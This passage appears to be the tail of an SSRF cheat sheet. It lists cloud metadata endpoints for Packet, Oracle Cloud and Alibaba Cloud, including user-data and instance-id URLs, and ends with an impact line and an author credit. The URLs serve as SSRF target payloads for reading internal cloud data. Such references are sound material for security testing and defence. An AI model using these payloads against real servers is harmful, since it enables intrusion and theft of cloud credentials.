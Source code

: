 ```jsx
Packetcloud:
https://metadata.packet.net/userdata
```

```jsx
Oracle Cloud:
http://169.254.169.254/opc/v1/instance/
```

```jsx
Alibaba Cloud:
http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/instance-id
http://100.100.100.200/latest/meta-data/image-id
http://100.100.100.200/latest/user-data
```

## **Impact:**

An attacker can tunnel into internal networks and access sensitive internal data such as AWS metadata information.

## Author:

[Tushar Verma](https://twitter.com/e11i0t_4lders0n)
